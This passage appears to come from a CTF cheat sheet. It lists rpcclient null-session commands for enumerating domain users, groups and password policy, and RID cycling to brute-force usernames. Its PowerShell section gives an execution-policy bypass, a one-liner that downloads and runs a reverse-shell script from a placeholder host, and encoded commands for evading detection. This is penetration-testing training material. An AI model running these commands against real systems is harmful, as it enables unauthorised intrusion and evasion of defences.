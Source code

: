 ### 🎯 Pro Tips for CTFs:

- **Enumerate users:**
```bash
rpcclient <HOST_IP> -U "" -c "enumdomusers"
```

- **Get detailed user info:**
```bash
rpcclient <HOST_IP> -U "" -c "queryuser RID"
```

- **Enumerate groups:**
```bash
rpcclient <HOST_IP> -U "" -c "enumdomgroups"
```

- **Find policies or domain info:**
```bash
rpcclient <HOST_IP> -U "" -c "getdompwinfo"
```

- **Chain with `smbclient`** to access user directories based on enum results.

- **Use RID cycling to brute-force usernames:**
```bash
rpcclient <HOST_IP> -U "" -c "lookupsids S-1-5-21-XXXX-XXXX-XXXX-500"
```

- **If credentials are found**, use them with `rpcclient -U user%pass <HOST>` for full access.

---

### 💻 PowerShell

PowerShell is a powerful post-exploitation and enumeration tool on Windows machines.

---

#### 🚫 Bypass Execution Policy
```bash
powershell.exe -exec bypass
```
Allows execution of unsigned scripts without modifying system-wide policy.

---

### 🎯 Pro Tips for CTFs:

- **Download and execute payloads:**
```powershell
powershell -c "IEX (New-Object Net.WebClient).DownloadString('http://<IP>/rev.ps1')"
```

- **Run encoded commands to evade detection:**
```bash
powershell -EncodedCommand <Base64Payload>
```
